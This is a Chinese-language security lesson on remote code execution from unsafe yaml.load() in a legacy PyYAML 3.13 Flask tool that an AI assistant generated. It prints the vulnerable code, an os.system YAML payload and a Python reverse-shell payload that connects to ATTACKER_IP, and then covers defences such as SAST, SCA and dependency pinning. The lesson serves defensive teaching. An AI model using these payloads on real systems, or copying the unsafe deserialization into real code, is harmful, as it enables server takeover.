

# 021：Python遗留依赖中的远程代码执行风险


## 概述

在本节课中，我们将通过一个具体的案例，学习在Python遗留应用中由第三方库依赖引发的远程代码执行风险。我们将分析一个模拟的Web应用开发过程，了解攻击者如何利用旧版本库的特性进行攻击，并探讨一系列防御措施。

## 场景设定：一个遗留的配置检查工具

上一节我们介绍了课程的整体目标，本节中我们来看看具体的案例背景。

假设公司内部有一个使用了多年的油藏模拟器软件，它通过YAML文件进行配置。该模拟器运行在一个封闭的环境中，且环境中只提供了Python 3.4。我们的任务是开发一个Web工具，用于在运行模拟前检查YAML配置文件的有效性。这个工具必须使用模拟器自带的库，因此也只能在相同的Python 3.4环境中运行。

## 快速开发：借助AI生成代码

了解了需求后，我们来看看开发者是如何快速实现这个工具的。

开发者决定使用Flask框架快速搭建一个Web应用，并利用内部AI助手生成基础代码。AI助手建议使用`PyYAML`库来处理YAML文件。

以下是生成的核心代码片段：

```python
from flask import Flask, request, render_template_string
import yaml

app = Flask(__name__)

@app.route(‘/‘, methods=[‘GET‘, ‘POST‘])
def index():
    if request.method == ‘GET‘:
        return render_template_string(‘...‘) # 模板代码省略
    else:
        yaml_text = request.form.get(‘yaml_text‘, ‘‘)
        print(yaml_text) # 用于调试
        try:
            # 使用yaml.load解析用户输入的YAML
            config = yaml.load(yaml_text)
            # 调用模拟器的检查方法
            result = check_config(config)
            return str(result)
        except Exception as e:
            # 捕获所有异常并返回给用户
            return f“An error occurred: {e}“
```

## 依赖困境：安装旧版本库

代码生成后，下一步是安装依赖并运行。

由于环境限制（Python 3.4），安装最新版`PyYAML`失败。开发者通过查询PyPI，发现并成功安装了与之兼容的旧版本`PyYAML==3.13`。应用成功运行，并能对测试YAML字符串进行基本验证。

## 漏洞显现：被忽视的库特性

应用看似运行正常，但一个关键的安全隐患已被埋下。

`PyYAML`库的`yaml.load()`函数有一个特性：当YAML内容中包含特定的标签时，它可以执行其中的Python代码。这是一个设计上的功能，但在处理不可信的用户输入时，就变成了一个严重的远程代码执行漏洞。

攻击者可以构造特殊的YAML输入来利用此功能：

```yaml
!!python/object/apply:os.system [“touch /tmp/hacked“]
```

当上述内容被提交到应用时，`yaml.load()`会执行`os.system(“touch /tmp/hacked”)`命令。

## 攻击升级：从探测到完全控制

发现漏洞后，攻击者会尝试进一步利用。

首先，攻击者通过注入代码探测服务器是否能访问外网，例如向一个Webhook站点发送请求。确认连通后，攻击者会尝试建立反向Shell，从而完全控制服务器。

以下是建立反向Shell的恶意YAML载荷示例（IP和端口需替换）：

```yaml
!!python/object/apply:subprocess.Popen
args:
- python
- -c
- |
  import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“ATTACKER_IP“,ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([“/bin/sh“,“-i“]);
```

成功连接后，攻击者便能在服务器上执行任意命令，访问机密数据，甚至部署勒索软件。

## 防御措施：多层安全实践

漏洞已经发生，现在我们来看看有哪些方法可以预防或缓解此类风险。

以下是几种关键的安全实践：

1.  **代码审查**：人工审查代码，特别是数据处理和反序列化部分。有经验的开发者可以指出`yaml.load()`在不安全上下文中的使用。
2.  **威胁建模**：在设计阶段分析系统，识别来自不可信边界（如用户输入）的数据流，有助于提前发现此类反序列化风险点。
3.  **静态应用程序安全测试**：在IDE或CI/CD管道中集成SAST工具。这些工具可以自动标记出像`yaml.load()`这样不安全的反序列化调用，并建议使用更安全的`yaml.safe_load()`。
4.  **软件成分分析**：使用SCA工具扫描项目依赖（如`requirements.txt`）。SCA工具可以识别项目中使用的、包含已知漏洞的库版本（如存在任意代码执行漏洞的`PyYAML 3.13`），并提示升级到安全版本（如`4.2+`）。
5.  **安全依赖管理**：在`requirements.txt`中固定库的版本号，并建立定期更新依赖的流程。避免使用泛版本说明（如`PyYAML`），这会导致不可预测的构建。
6.  **运行时监控**：对已部署的应用进行持续监控，以便在新漏洞被披露时能及时获得告警并修复。

## 责任归属：开发者是最终负责人

最后，我们必须明确一个核心原则：**开发者对其编写和部署的代码负有最终安全责任**。

无论代码是手写、复制自网络，还是由AI助手生成，一旦将其提交并部署到生产环境，开发者就需要为其中的安全缺陷负责。自动化工具和AI可以提高效率，但不能替代开发者的判断力和责任心。

## 总结



本节课中我们一起学习了Python遗留依赖导致远程代码执行的全过程。我们从一个模拟的Web应用开发开始，见证了开发者如何因环境限制而引入存在漏洞的旧版`PyYAML`库。随后，我们分析了攻击者如何利用该库的特性构造恶意输入，逐步从信息探测发展到获取服务器完全控制权。最后，我们探讨了包括代码审查、威胁建模、SAST、SCA在内的多层次防御策略，并强调了开发者在软件安全中不可推卸的最终责任。这个案例表明，在快速开发的同时，必须将安全实践融入开发生命周期的每一个环节。